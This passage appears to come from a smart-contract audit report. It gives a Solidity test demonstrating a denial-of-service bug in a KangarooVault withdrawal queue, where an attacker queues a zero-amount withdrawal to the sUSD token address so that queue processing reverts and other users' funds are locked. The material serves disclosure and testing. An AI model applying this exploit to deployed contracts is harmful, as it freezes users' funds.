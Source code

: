 In the `KangarooVault.t.sol` test script, the following test was added to demonstrated the issue:

```solidity
// add to top of file:
import {IVaultToken} from "../../src/interfaces/IVaultToken.sol";


// add to KangarooTest Contract:
    function testWithdrawalDOS() public {

        IVaultToken vault_token = kangaroo.VAULT_TOKEN();
        // make deposit for user_2
        susd.mint(user_2, 2e23);
        vm.startPrank(user_2);
        susd.approve(address(kangaroo), 2e23);
        kangaroo.initiateDeposit(user_2, 2e23);
        assertEq(vault_token.balanceOf(user_2),2e23);
        vm.stopPrank();


        // have vault open a position to force queued wthdrawals
        testOpen();

        // vault has  position opened, withdrawal will be queued, vault_token burned, no USDC received
        vm.startPrank(user_2);
        kangaroo.initiateWithdrawal(user_2, 1e23);
        assertEq(susd.balanceOf(user_2),0);
        assertEq(vault_token.balanceOf(user_2),1e23);
        
        // process withdrawalqueue, withdrawam should pass
        skip(kangaroo.minWithdrawDelay());         
        kangaroo.processWithdrawalQueue(3);
        uint256 user_2_balance = susd.balanceOf(user_2);
        assertGt(user_2_balance,0);        
        vm.stopPrank();


        // user 3 frontruns with fake/reverting withdrawal request.
        // to 0xDfA2d3a0d32F870D87f8A0d7AA6b9CdEB7bc5AdB (= SUSD MultiCollateralSynth contract address). 
        // This will cause SUSD transfer to revert.
        vm.startPrank(user_3);        
        kangaroo.initiateWithdrawal(0xDfA2d3a0d32F870D87f8A0d7AA6b9CdEB7bc5AdB, 0);
        vm.stopPrank();

        // user_2 adds another withdrawal request, after the attackers request, vault_token burned, no USDC received
        vm.startPrank(user_2);  
        kangaroo.initiateWithdrawal(user_2, 1e23);
        assertEq(vault_token.balanceOf(user_2),0);


        // processWithdrawalQueue now reverts and no funds received
        skip(kangaroo.minWithdrawDelay());
        vm.expectRevert(bytes("TRANSFER_FAILED"));
        kangaroo.processWithdrawalQueue(3);
        assertEq(susd.balanceOf(user_2),user_2_balance);
        assertEq(vault_token.balanceOf(user_2),0);
        vm.stopPrank();

    }

```
